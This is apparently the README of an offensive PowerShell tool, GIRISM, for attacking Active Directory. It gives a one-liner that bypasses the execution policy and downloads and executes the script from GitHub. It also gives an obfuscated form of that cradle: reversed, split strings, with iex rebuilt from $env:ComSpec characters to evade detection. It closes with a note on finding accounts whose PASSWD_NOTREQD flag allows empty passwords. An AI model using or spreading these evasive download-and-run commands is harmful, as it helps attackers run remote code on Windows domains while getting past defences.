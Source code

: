 # GIRISM - Guided Infiltration and Reconnaissance Initiative for System Manipulation

*Automating Penetration testing of Active Directory*

Import-Module .\Girism.ps1
Type Girism and then allow the script to load into the current Powershell session.
Follow the on-screen instructions afterwards.

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Girism/main/Girism.ps1'))

OBF IEX:

" $(SeT-iTEm 'vaRiABlE:OFs'  '') "+ ( [STrINg] [rEGEX]::MatChes( "xEI |)93]rahC[,'1LI' eCAlpEr-  )')'+')'+'1LI1sp.msiriG'+'/nia'+'m/msi'+'riG/o'+'h'+'oZniMAI/moc.'+'tne'+'tnoc'+'resubu'+'ht'+'ig'+'.wa'+'r//:sp'+'tth1LI'+'(gnirtSdaolnw'+'oD.)tneilCb'+'eW.t'+'e'+'N.met'+'syS '+'t'+'ce'+'jbO-weN(( xei '+';2703 rob'+'- locot'+'orPytiruceS'+'::]rega'+'naM'+'tnioPecivreS.teN.m'+'et'+'syS[ = l'+'o'+'cotorPytiruce'+'S:'+':]rega'+'naM'+'tnioPe'+'civr'+'eS.teN.'+'me'+'tsy'+'S[ ;'+'e'+'croF-'+' ss'+'ecorP '+'ep'+'ocS- s'+'sapyB ycilo'+'P'+'noituc'+'exE-teS'(( " , '.' ,'R'+'Ig'+'httoL'+'eFt') | %{$_ })+"$( SET-ITeM 'variAble:OFs'  ' ' )" | & ( $enV:COmsPEc[4,15,25]-JoIN'')

#  Empty password in Active Directory
I found out that the reason for an empty password in Active Directory can be found here – in the UserAccountControl Attribute.
In this attribute the flag “PASSWD_NOTREQD” can be set. If this flag is set, a domain administrator can issue an empty password, evading the password policy.
For accounts with the flag “PASSWD_NOTREQD” set, the attribute “UserAccountControl” has the value 544.

# Clean the file share as post cleanup routine:
Type in Run window: 'fsmgmt.msc'
